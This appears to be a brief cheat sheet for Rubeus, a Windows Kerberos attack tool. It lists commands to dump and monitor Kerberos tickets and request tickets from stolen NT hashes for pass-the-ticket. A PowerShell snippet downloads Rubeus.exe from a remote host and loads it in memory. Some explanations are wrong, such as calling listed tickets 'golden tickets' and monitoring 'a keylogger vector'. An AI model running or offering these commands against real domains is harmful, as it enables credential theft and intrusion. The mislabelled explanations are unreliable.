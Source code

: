 # Rubeus

## 01 - Basic Commands

List golden tickets that are being used.

`C:\> Rubeus.exe klist`

A much nicer way to see the golden tickets when using `triage` flag

`C:\> Rubeus.exe triage`

If the tickets exist dump them into base64 encoded

`C:\> Rubeus.exe dump /nowrap`

Monitors the number of golden ticket sessions for every 10 seconds this is useful as a keylogger vector

```
C:\> Rubeus.exe monitor /interval:10 /nowrap

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain> /rc4:<nt_hash> /ptt

C:\> Rubeus.exe asktgt /user:<username> /domain:<domain> /aes256:<nt_hash> /createnetonly:C:\Windows\System32\cmd.exe /ptt
```

## 02 - Download and Execute

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```